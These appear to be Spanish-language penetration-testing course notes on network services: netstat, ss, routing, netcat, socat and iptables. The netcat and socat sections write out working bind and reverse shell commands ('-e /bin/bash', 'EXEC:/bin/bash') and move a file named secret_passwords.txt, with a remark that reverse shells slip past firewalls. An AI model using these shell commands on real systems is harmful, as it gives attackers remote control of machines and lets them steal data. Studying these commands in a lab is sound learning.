 # Servicios de Red

## Chequeo de actividad en la red

Existen 3 comandos principales para esta actividad netstat, ss y arp

`netstat -natup` nos muestra la comunicación que hay en la red así como el estado de la misma

`ss` es una versión más reciente de netstat y `arp -en`  nos muestra la tabla de direcciones MAC alamacenadas en un equipo

El estatus ESTABLISHED indica que hay una conexión activa, CLOSE_WAIT indica que existe una conexión pendiente de cerrar por el socket.

Si un equipo se encuentra en escucha con la ip 0.0.0.0 significa que ese equipo esta en modo LISTENING en todas las interfaces.

`sudo ss -natup` nos puede mostrar el nombre del binario asociado a la conexión

### Ruteo

El comando `route` nos permite observar el alcance de nuestra red, un host esta configurado para usar el gateway como router para acceder a la red.

### Ejemplo de troubleshooting

Escenario: Se intenta alcanzar una ip dentro de cierto segmento, sin embargo, no esta dentro de la lista de ruteo

![Untitled](Servicios%20de%20Red%209166359c497d4c5c90e68ad18bf79659/Untitled.png)

### Netcat (nc)

nc nos permite conectarnos por tcp o udp para validar si el puerto esta abierto, obtener un banner o funcionar en modo servidor.

El comando GET dentro de NC nos permite consultar servicios web, por ejemplo

```bash
kali@kali:~$nc -nv 192.168.65.61 80
(UNKNOWN) [192.168.65.61] 80 (http) open
GET / HTTP/1.1Host: 192.168.65.61

HTTP/1.1 200 OK
Server: nginx/1.21.6
Date: Fri, 08 Jul 2022 16:43:38 GMT
Content-Type: text/html
Transfer-Encoding: chunked
Connection: keep-alive

767
<html>
...
```

Modo escucha(servidor)

```bash
kali@kali:~$nc -lvnp 6666
listening on [any] 6666 ...
```

Conexión hacia el servicio 6666 (cliente)

```bash
offensive@server01:~$nc -nv 192.168.65.200 6666
Connection to 192.168.65.200 6666 port [tcp/*] succeeded!
This is a chat message from the exercise host!
```

### Transferencia de archivos con nc

Servidor

```bash
offensive@server01:~$nc -lvnp 6666 > incoming.txt
Listening on 0.0.0.0 6666

```

Creación y envío de archivo(cliente)

```bash
kali@kali:~$echo "This is an example of sending a file" > incoming.txt

kali@kali:~$nc -nv 192.168.65.61 6666 < incoming.txt
(UNKNOWN) [192.168.65.61] 6666 (?) open
```

### Bind shell con nc

La opción -e permite la ejecución de una aplicación, por ejemplo cmd.exe

Servidor(Windows)

```powershell
C:\Users\offsec>ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.0.22
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1

C:\Users\offsec>nc -nlvp 4444 -e cmd.exe
listening on [any] 4444 ...
```

Cliente(linux)

```bash
kali@kali:~$ip address show eth0 | grep inet
          inet 10.11.0.4/16  brd 10.11.255.255  scope global dynamic eth0

kali@kali:~$nc -nv 10.11.0.22 4444
(UNKNOWN) [10.11.0.22] 4444 (?) open
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\offsec>ipconfig
Windows IP Configuration
Ethernet adapter Local Area Connection:
   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.0.22
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1
```

![Untitled](Servicios%20de%20Red%209166359c497d4c5c90e68ad18bf79659/Untitled%201.png)

### Reverse Shell con nc

cliente

```bash
kali@kali:~$ip address show eth0 | grep inet
          inet 10.11.0.4/16  brd 10.11.255.255  scope global dynamic eth0

kali@kali:~$nc -nv 10.11.0.22 4444 -e /bin/bash
(UNKNOWN) [10.11.0.22] 4444 (?) open
```

Servidor

```bash
C:\Users\offsec>nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.11.0.22] from <UNKNOWN) [10.11.0.4] 43482

ip address show eth0 | grep inet
          inet 10.11.0.4/16  brd 10.11.255.255  scope global dynamic eth0
```

El bind shell es fácilmente detectado por los firewalls, por otro lado el reverse shell será mas efectivo

![Untitled](Servicios%20de%20Red%209166359c497d4c5c90e68ad18bf79659/Untitled%202.png)

### SOCAT

Cliente

`socat - TCP4:<remote server's ip address>:80`

Servidor

`sudo socat TCP4-LISTEN:443 STDOUT`

Transferencia de archivos

`kali@kali:~$ **sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt**`

`C:\Users\offsec> **socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create**`

Reverse shell (servidor)

```bash
C:\Users\offsec>socat -d -d TCP4-LISTEN:443 STDOUT
... socat[4388] N listening on AF=2 0.0.0.0:443
```

Cliente

`kali@kali:~$ **socat TCP4:10.11.0.22:443 EXEC:/bin/bash**`

Otra forma de conectarse por bind `socat TCP4:172.16.53.20:456 stdin`

## IPtables

Funciona como firewall stateless por default pero puede ser configurado como stateful. 

Ejemplo regla de entrada

```bash
kali@kali:~$sudo iptables -s 192.168.1.0/24 -p all -A INPUT
[sudo] password for kali:

kali@kali:~$sudo iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
           all  --  192.168.1.0/24       anywhere

Chain FORWARD (policy DROP)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
```

Ejemplo para habilitar el trafico por el puerto 8080 al localhost

```bash
kali@kali:~$sudo iptables -R INPUT 1 -s 192.168.1.37 -d 127.0.0.1 -p tcp --dport 8080

kali@kali:~$sudo iptables -nL --line-numbers
Chain INPUT (policy ACCEPT)
num  target     prot opt source               destination
1               tcp  --  192.168.1.37         127.0.0.1            tcp dpt:8080
2    DROP       all  --  192.168.1.0/24       0.0.0.0/0
3               all  --  127.0.0.1            127.0.0.1
4               all  --  127.0.0.1            0.0.0.0/0

Chain FORWARD (policy DROP)
num  target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
num  target     prot opt source               destination
```
